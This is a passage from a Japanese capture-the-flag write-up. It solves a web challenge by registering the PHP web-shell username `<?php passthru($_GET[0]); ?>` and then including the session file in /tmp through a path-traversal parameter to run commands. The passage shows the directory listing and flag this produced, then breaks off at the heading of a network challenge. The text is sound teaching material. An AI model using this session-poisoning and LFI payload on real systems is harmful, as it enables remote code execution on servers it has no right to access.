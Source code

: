 `$_SESSION['user'] = $username;` とセッションデータとしてユーザ入力のユーザ名が保存されています。PHP において、デフォルトの設定ではセッションデータは `sess_(セッション ID)` のようなファイル名で、`(属性名)|(シリアライズされたデータ);` のような形式で、セミコロン区切りで保存されています ([Harekaze CTF 2019 の Easy Notes](2019-05-21-harekaze-ctf-2019.html#web-200-easy-notes) など参照)。これを利用すれば、PHP コードをユーザ名として登録・ログインしたあと、セッションデータが保存されているファイルを LFI で読み込めば任意の PHP コードを実行させることができそうです。

`FROM php:7.3-apache` というヒントからこの Web サーバはおそらく [php/Dockerfile at affbdaf1386876560e287cd7708fafe2a4d246eb · docker-library/php](https://github.com/docker-library/php/blob/affbdaf1386876560e287cd7708fafe2a4d246eb/7.3/buster/apache/Dockerfile) を利用しているとわかります。この環境ではセッションデータは `/tmp` に保存されます。

`<?php passthru($_GET[0]); ?>` というユーザ名で登録・ログインし、`?lang=../../../../tmp/sess_(セッション ID)&0=ls%20-la%20/` にアクセスすると、以下のようにルートディレクトリのファイルの一覧を取得できました。

```
︙
<main role="main" class="container">
            user|s:28:"total 96
drwxr-xr-x   1 root root 4096 Jan 26 02:47 .
drwxr-xr-x   1 root root 4096 Jan 26 02:47 ..
-rwxr-xr-x   1 root root    0 Jan 26 02:47 .dockerenv
drwxr-xr-x   1 root root 4096 Dec 28 20:46 bin
drwxr-xr-x   2 root root 4096 Nov 10 12:17 boot
drwxr-xr-x   5 root root  340 Jan 26 04:30 dev
drwxr-xr-x   1 root root 4096 Jan 26 02:47 etc
-r--r--r--   1 root root   36 Jan 25 08:13 flag1.txt
-r--r--r--   1 root root   32 Jan 25 08:13 flag2.txt
---x--x--x   1 root root 5184 Jan 25 08:13 flag3.execute_me
drwxr-xr-x   2 root root 4096 Nov 10 12:17 home
drwxr-xr-x   1 root root 4096 Dec 28 20:46 lib
drwxr-xr-x   2 root root 4096 Dec 24 00:00 lib64
drwxr-xr-x   2 root root 4096 Dec 24 00:00 media
drwxr-xr-x   2 root root 4096 Dec 24 00:00 mnt
drwxr-xr-x   2 root root 4096 Dec 24 00:00 opt
dr-xr-xr-x 210 root root    0 Jan 26 04:30 proc
drwx------   1 root root 4096 Jan 24 07:56 root
drwxr-xr-x   1 root root 4096 Dec 28 20:46 run
drwxr-xr-x   1 root root 4096 Dec 28 20:46 sbin
drwxr-xr-x   2 root root 4096 Dec 24 00:00 srv
dr-xr-xr-x  13 root root    0 Jan 26 00:55 sys
drwxrwxrwt   1 root root 4096 Jan 26 05:29 tmp
drwxr-xr-x   1 root root 4096 Dec 24 00:00 usr
drwxr-xr-x   1 root root 4096 Dec 28 20:40 var
";        </main>
︙
```

`?lang=../../../../tmp/sess_844ac4c965a367dfc0329fd5661c706b&0=/flag3*` にアクセスするとフラグが得られました。

```
NITAC{n0w_u_kn0w_h0w_2_c4us3_RCE_us1ng_LFI}
```

## [Network 100] JWT_auth (20 solves)
> 以下のpcapファイルを用いてFLAGを探し出せ。
> 
> 添付ファイル: Network2.pcapng
